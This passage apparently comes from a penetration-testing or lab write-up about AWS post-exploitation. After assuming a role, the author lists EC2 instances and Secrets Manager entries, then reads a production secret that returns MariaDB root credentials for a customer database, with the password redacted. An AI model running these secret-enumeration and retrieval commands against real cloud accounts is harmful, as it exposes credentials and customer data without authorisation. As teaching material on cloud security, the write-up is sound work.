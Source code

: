 
We can test if we successfully assumed the role. Seems like it worked, we can list EC2 instances and secrets
```
└─$ aws ec2 describe-instances
{
    "Reservations": [
        {
            "ReservationId": "r-047e8213e6ead5f6b",
            "OwnerId": "794929857501",
            "Groups": [],
            "Instances": [
                {
                    "Architecture": "x86_64",
<SNIP>
```
```
└─$ aws secretsmanager list-secrets --region us-east-1
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf",
            "Name": "prod/Customers",
            "Description": "Access to the MySQL prod database containing customer data",
            "LastChangedDate": 1695991078.584,
            "LastAccessedDate": 1754352000.0,
            "Tags": [],
            "SecretVersionsToStages": {
                "bf175f57-7e29-4fd1-881f-76e78fdd7320": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": 1695991078.328
        }
    ]
}
```

We found secrets in `us-east-1` region, let's retrieve them since we had permissions to access them 
```
└─$ aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf --region us-east-1
{
    "ARN": "arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf",
    "Name": "prod/Customers",
    "VersionId": "bf175f57-7e29-4fd1-881f-76e78fdd7320",
    "SecretString": "{\"username\":\"root\",\"password\":\"<REDACTED>\",\"engine\":\"mariadb\",\"host\":\"10.10.14.15\",\"port\":\"3306\",\"dbname\":\"customers\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1695991078.579
}
```